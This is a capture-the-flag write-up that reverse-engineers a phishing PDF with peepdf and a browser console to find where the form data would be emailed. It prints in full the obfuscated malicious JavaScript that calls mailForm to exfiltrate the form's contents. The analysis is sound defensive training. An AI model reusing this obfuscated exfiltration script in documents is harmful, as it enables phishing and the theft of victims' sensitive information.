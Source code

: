 # The Phish Tank - 3b
> An additional email sent from that same suspicious IP address contained an attached PDF document. The user who opened this document started to fill out the form, but became suspicious and reported it to Snowpoint’s security team instead of hitting the submit button.

> The Snowpoint security team would like you to download the attached PDF document and determine what would happen if the submit button was clicked.

> Where would the sensitive information provided in the form be sent?

> Flag format: email address. Example: icsjwgctf@gmail.com

## About the Challenge
We need to do reverse engineering on a PDF file to obtain the email (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
First, im using static-analysis approach to find the flag and then using [peepdf](https://github.com/jesparza/peepdf). Here is the command I used

```shell
python2 peepdf.py -f /home/kali/Downloads/download.pdf -i
```


[Image extracted text: (kaliokali)-[~/Tools/peepdf]
python2 peepdf.py
Ihome/kali/Downloads/download _
Warning:
Pyv8
not
installed
Warning:
pylibemu
not
installed
Warning:
Python
Imaging Library
(PIL)
not
installed !!
File:
download .E
MDS :
aoo66dbe5ogffa5564930cbcacbbogge
SHAI
8bdbboabd45c7dcb35666f9497ca68611405b0a9
SHA256:
be60d47010b686787b1a53d1e8884e54204258582be56342fce9df46fb36bbld
Size:
33643
bytes
Vers
on:
1.6
Binary:
True
Linearized:
False
Encrypted:
False
Updates:
Objects:
Streams
URIs:
Comments:
Errors:


Version
Catalog:
Info:
Objects
(35):
[1,
9 , 10, 11, 12, 13, 14, 15, 16, 17 ,
18 ,
19 ,
20 , 21,
22 ,
23, 24, 25,
26 ,
27 ,
28 ,
29 ,
30 , 31,
32 ,
33,
34 , 35]
Streams
(13) :
13, 15, 17
21
23 ,
26 ,
28 ,
30 ,
32 , 34]
Encoded
(13) :
13 ,
19 ,
21,
23 ,
26 ,
28 ,
30 ,
32 , 34]
Objects
with JS
code
(1):
[4]
Suspicious
elements:
/Names
(1): [5]
IAA
(1): [7]
IJS (1): [4]
eheckoutinatsnet
thetatestteledseanalntx
/ JavaScript (2):
[4, 5]
pdf
pdf]


As you can see, there is malicious elements such as Javascripts in objects 4 and 5. And if we check the object using this command

```
object 4
```


[Image extracted text: PPDF >
object
{Type
{Action
Fheckoutanat
netinthetatestreledsalnt
/S / JavaScript
IJS
var
c80ac4
f9c2-this getField( function( ){var r-Array
prototype.slice
call(arguments) ,t-r.shift();return
.reverse(
.map(
function(r,0) {return String
fromCharCode(r-t-1-0)})).join(
)}(33,137
150,151)+995
toString(36) .toLowerCase( )+
function( ){var r-Array.prototype
slice
call(arguments) ,t-r.shift()
return
reverse(
.map(
function(r
0 ) {return String. fromCharcode(r-t-25-0)})).join(
2}(28,156,163,150) ) , feddc07405-function( ){var r-Array.prototype
slice
call(argument
s),t-r.shift();return
reverse(
.map(
function(r,0){return String.fromCharCode(r-t-14-0)})). Join("")}(14,134)+30 
toString(36 ) .toLowerCase( )+function( ){var r-Array prototype
slice call(arguments) ,t-r.shift();return
reverse(
.map( ( fu
nction(r,0){return String.fromCharCode(r-t-38-0)}) ) . join( "")}(4,154)+1137788359_
toString(36). toLowerCase( )+16
toString( 36) .toLowerCase( )   split("" )  map(
function(r){return String.fromCharCode(r
charCodeAt( )+-39)})).join(
)+function( )
{var r-Array _
funcototype{retcen
slice
call(arguments) ,t-r.shift()ireturn
reverse(
.map(
function(r,0){return String.fromCharCode(r-t-40-0)})).join("")}(36,176,186,174,179)+598116
toString( 36) . toLowerCase( )+30
toString( 36) . toLowerCase( ) .spli
) .map( (
String.fromCharCode(r charCodeAt( )+-71)})). join("" )+921 _toString(36) .toLowerCase( )+function( ){var r-Array.prototype
slice cal(arguments),t-r.shift();return
reverse
.map(
function(r,0){return String.fr
omCharCode(r-t-57-0)})). Join("")}(0,174,154),b15d02c677-this getField( 32788
toString( 36) .toLowerCase( )+function( ){var r-Array.prototype
slice
call(arguments) ,
ter
shift();return
reverse(
map(
function(r,0){return String. fromCharCode
(r-t-56-0)})).join(
9}(25,198,194,201,196)+13
toString(36).toLowerCase( )),run-0;1-erunobthis
mailForm( ! 1,feddc07405
c80ac4f9c2,b15d02c677) ;
t("]


And then there is an obfuscated javascript file like this

```javascript
var c80ac4f9c2=this.getField(function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-1-o)})).join("")}(33,137,150,151)+995..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-25-o)})).join("")}(28,156,163,150)),feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154),b15d02c677=this.getField(32788..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-56-o)})).join("")}(25,198,194,201,196)+13..toString(36).toLowerCase()),run=0;1==run&&this.mailForm(!1,feddc07405,"","",c80ac4f9c2,b15d02c677);
```

Im using some of the deobfuscator javascript tools online like this [one](https://lelinhtinh.github.io/de4js/) but the result is not i good. So I decided to execute the Javascript code manually on my browser console to obtain the email address

```javascript
var feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154)
console.log(feddc07405)
```

So, the flag was located in `feddc07405` variable and we need to print the `feddc07405` variable to be able to read the flag


[Image extracted text: var feddc07405-function( ) {var r-Array
prototype.slice call(arguments)_
t-r.shift();return
reverse
map
(function(r,0)
{return String.fromcharCode(r-t-14-0
)). join("
(14,134)+30..toString(36).toLowerCase
+function
{var
r-Array
slice
call
(arguments),t=r.shift();return
r.reverse( ) .map( (function(r,o){return String.fromcharCode(r_
38-=
rofoiyee;;
(4,154)+1137788359
toString(36)
toLowerCase( )+16 _
toString(36)
toLowerCase( ) . split(
) .map( ( function(r){return
String. fromCharCode(r.charCoceAt()+-39)}) ) . join("
+function() {var
rahrray
slice
call
(arguments
t=r shift();return
r.reverse( ) .map( (function(r,o){return String.fromcharCode(r
[-48
Rrofotyre
(36,176_
186,174,179)+598116
(36_
toLowerCaser
+30.
toString
36) . toLowerCase
split('
map
(function(r){return
String.fromCharCode
chanCodec5t)ing{36);
join("")+921
toString
toLowerCase ( )+function(){var
rahrray
slice
call
(arguments
In
shift();return
rtreverse
map( (function(r,o){return String.fromcharCode(r
[-57-=
"3y;}  fotvre
)}(0,174,154)
undefined
console.log(fe
Uncaught SyntaxError: missing
after argument list
W73911
console.log(feddce7485)
jupiter47@galactic plat
LN758:1
undefined]


```
jupiter47@galactic.plat
```